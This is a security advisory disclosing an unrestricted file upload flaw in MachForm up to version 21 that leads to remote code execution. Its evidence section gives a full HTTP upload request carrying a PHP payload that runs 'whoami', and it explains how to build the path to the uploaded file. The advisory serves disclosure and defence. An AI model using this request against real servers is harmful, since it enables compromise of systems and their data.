 # Description
MachForm up to version 21 is affected by an authenticated unrestricted file upload which leads to a remote code execution.

The application offers the possibility of a creation of a form with a file upload functionality. While by default the accepted files are restricted to a common safe subset, the form creator can also specify additional formats which are allowed.

If a user with form creation rights makes a form with file upload functionality where _“PHP”_ format is allowed, any unauthenticated user can exploit this form to obtain Remote Code Execution.
# Risk
- Severity: Critical
- CVSS v3.1 Score: 9.9
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
# Affected Resources
- Version: up to MachForm v21
- https://<application-baseurl\>/upload.php
# Evidence
In order to exploit this vulnerability, it is required to have a form with file upload functionality enabled which has _“PHP”_ extensions whitelisted.

![image_1](./images/image_1.png)

Once this prerequisite is achieved, any unauthenticated user can navigate to the form to exploit the file upload vulnerability.

Files uploaded to the form, <b><u>which have not yet been submitted within the form</u></b>, are uploaded on the web server in a pre-determined directory with a .tmp format.

![image_2](./images/image_2.png)

Request:
```
POST /upload.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl
Content-Type: multipart/form-data; boundary=---------------------------6934955361623015052738262130
Content-Length: 657
Origin: https://application-baseurl
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="Filedata"; filename="whoami.php"
Content-Type: application/x-php

<?php
echo 'whoami = '.exec('/usr/bin/whoami');
?>
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="form_id"

62461
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="element_id"

1
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="file_token"

9d96df33b71cadaad638c20f0540da39
-----------------------------6934955361623015052738262130--
```

The full path of the uploaded file can be built using the upload request, which contain all the required fields:

/data/form_{form_id}/files/element_{element_id}_{file_token}-{file_name}.php.tmp

In this scenario, the uploaded file URL will be the following:

/data/form_62461/files/element_1_9d96df33b71cadaad638c20f0540da39-whoami.php.tmp

![image_3](./images/image_3.png)

Once obtained Remote Code Execution, it is possible to operate directly on the target server which would allow to acquire access beyond the scope of the application and would allow reading sensitive information or altering/deleting core components.